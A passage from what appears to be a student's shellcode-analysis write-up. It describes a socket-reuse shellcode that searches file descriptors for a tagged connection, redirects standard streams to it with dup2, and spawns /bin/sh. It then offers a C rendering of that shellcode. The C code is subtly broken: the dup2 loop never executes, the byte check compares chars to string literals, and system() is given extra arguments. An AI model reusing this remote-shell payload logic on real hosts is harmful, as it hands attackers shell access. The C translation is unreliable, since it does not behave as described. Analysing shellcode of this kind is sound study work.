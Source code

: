 This last block of disassembly looks similar to what I've written for the 1st and 2nd assignments.

It simply calls the syscall `execve` in order to spawn a shell, in particular `/bin//sh`.

To recapitulate what the shellcode does:

<ol><li>the shellcode calls `recv` in order to receive data from the file descriptor `0xa00` (2560) of the socket
- the shellcode checks the first 4 bytes of the buffer storing the data received
- if they aren't equal to `0x68486a66`, then it **increases** the file descriptor (`0xa00` -> `0xa01` -> `0xa02` ...), until `0xffff`, after that it starts again from `0x0000`
- if they are equal, it continues execution
- the syscall `dup2` is used for redirecting standard error, standard output, and standard input (in this specific order) towards the file descriptor of the socket
- the shellcode uses the syscall `execve` to spawn the shell `/bin/sh`

It translates to the following `C` program, although with some minor differences:

```cpp
#include <sys/socket.h>

void main(int argc, char *argv[])
{
    unsigned short int fd = 2560;

    /*
      buffer containing data received from the socket
      in the previous shellcode, the data is stored on the stack
      so this is the 1st difference
    */
    char buffer[2560] = {0};

    while (1)
    {
        recv(fd, &amp;buffer, 2560, MSG_DONTWAIT);

        /*
          check the first four bytes of the data received from the socket (if so)
          I don't know how to check the first 4 bytes without other functions
          so this is the 2nd difference
        */
        if (buffer[0] == "\x66" &amp;&amp; buffer[1] == "\x6a" &amp;&amp; buffer[2] == "\x48" &amp;&amp; buffer[3] == "\x68")
        {
            break;
        } else
        {
            // increase the file descriptor if data wasn't received or
            //  the first 4 bytes aren't correct
            fd++;
        }
    }

    // redirect stderr, stdout, stdin
    for (int i = 2; i <= 0; i++)
    {
        dup2(fd, i);
    }

    /*
      spawn a shell, using system(), as I couldn't use execve
      so this is the 3rd difference
    */
    system("/bin//sh", "/bin//sh", 0);
}
```
